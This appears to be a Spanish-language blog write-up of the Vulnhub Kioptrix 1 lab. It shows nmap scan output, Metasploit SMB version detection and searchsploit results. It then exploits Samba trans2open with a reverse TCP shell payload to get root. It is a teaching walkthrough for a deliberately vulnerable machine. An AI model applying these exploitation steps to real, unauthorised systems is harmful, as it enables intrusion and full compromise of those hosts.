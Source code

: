 ```yaml
---
title: "Vulnhub #2: Kioptrix 1"
description: Pentesting a máquina Kioptrix en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Descubrimiento de hosts

Escaneamos con `nmap -sn <ip>/<rango>`, encontramos la maquina en la ip `192.168.0.24`.

## Reconocimiento

Escaneamos con `nmap -sV 192.168.0.24` para realizar una enumeración de puertos y servicios.

```
Nmap scan report for 192.168.0.24
Host is up (0.0021s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

Vemos que 192.168.0.24 es un **redhat** con varios puertos abiertos.

Nos interesa el servicio de **Samba**, pero necesitamos conocer su version antes.

## Explotación

Con metasploit podemos ejecutar el siguiente scanner:

```bash
msfconsole
search /scanner/smb/ #para buscar
use /auxiliary/scanner/smb/smb_version
show options
set rhosts 192.168.0.24
```

Al lanzarlo, obtenemos lo siguiente:

```bash
[*] 192.168.0.24:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.0.24:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.0.24:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Una vez tenemos la version, podemos buscar si existen exploits con `searchsploit <servicio>` y `searchsplot <servicio> <version>`

Con searchsploit samba 2.2.1a nos da el siguiente resultado:

```
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - tr | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Re | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap O | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial o | linux_x86/dos/36741.py
------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotar la vulnerabilidad debemos encontrar una en su version.

En concreto, aqui tenemos la vulnerabilidad trans2open, podemos buscarla con `search trans2open` en metasploit.

Debemos configurar el payload con `set payload linux/x86/shell_reverse_tcp` y el rhosts.

Al lanzarlo con run obtenemos una shell con usuario **root**.
